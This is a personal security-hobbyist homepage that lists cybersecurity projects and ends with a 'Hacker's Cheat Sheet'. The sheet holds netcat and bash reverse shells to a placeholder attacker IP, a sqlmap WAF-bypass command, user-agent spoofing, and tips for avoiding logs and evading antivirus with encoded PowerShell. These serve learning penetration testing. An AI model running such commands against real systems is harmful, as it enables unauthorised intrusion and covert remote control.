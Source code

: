 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️

![Hacker Banner](https://user-images.githubusercontent.com/hacker-image.png)

Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities, and cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) - A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) - Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) - Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) - Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) - Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) - A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) - A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) - A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) - Detect network anomalies using these tools and techniques.
---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking, and building tools to create a more secure future. I love experimenting with new technologies, finding vulnerabilities, and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in our **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt

  ```
Quick and powerful fuzzing to discover hidden directories.
### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:
```
http.request.method == "GET"
```
Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
Target specific DNS queries to detect if someone's reaching out to malicious domains.

### 🔒 3. Bypass Techniques
- Bypass WAF using SQLMap with tamper scripts:
```
sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
```
Get around pesky WAFs with a tamper script and crank up the aggression.

- Custom User-Agent to fool detection systems:
```
curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com

```
Impersonate a search engine crawler to bypass access restrictions.

### 🛡️ 4. Advanced Reverse Shells
- Obfuscated Netcat reverse shell:
```
mkfifo /tmp/lolpipe; nc <attacker IP> <port> 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
```
Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- Bash TCP reverse shell (for when Netcat isn’t available):
```
bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
```
Minimal footprint, effective on many Unix-based systems.
### 💻 5. Stealth Techniques
- Avoid logging by executing commands in memory (Linux):
```
exec /bin/bash 0</dev/null 2>/dev/null
```
Run commands in a way that avoids leaving traces in `/var/log` files.

- Evade AV detection with PowerShell base64 encoding:
  ```
  powershell.exe -EncodedCommand <Base64 Encoded Command>
  ```
Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.
### 🛠️ 6. Tools You Might Not Know (But Should)
- ([Obsidian]https://obsidian.md/)– A tool for creating encrypted vaults of notes and penetration testing playbooks
- ([Chaos Reader]http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- ([LinEnum]https://github.com/rebootuser/LinEnum)– A Linux enumeration script to quickly find privilege escalation vectors.
### 🎯 7. Fuzzing on Steroids
- Fuzzing APIs with POST requests using FFUF:
  ```
  ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
  ```
Quickly find API vulnerabilities by fuzzing POST request bodies.

- Fuzzing JSON APIs with AFL (American Fuzzy Lop):
  ```
  afl-fuzz -i input/ -o output/ -- ./target_binary @@
  ```
Use AFL to find memory corruption issues in JSON parsers, or other binary targets.
💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉
  

## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!

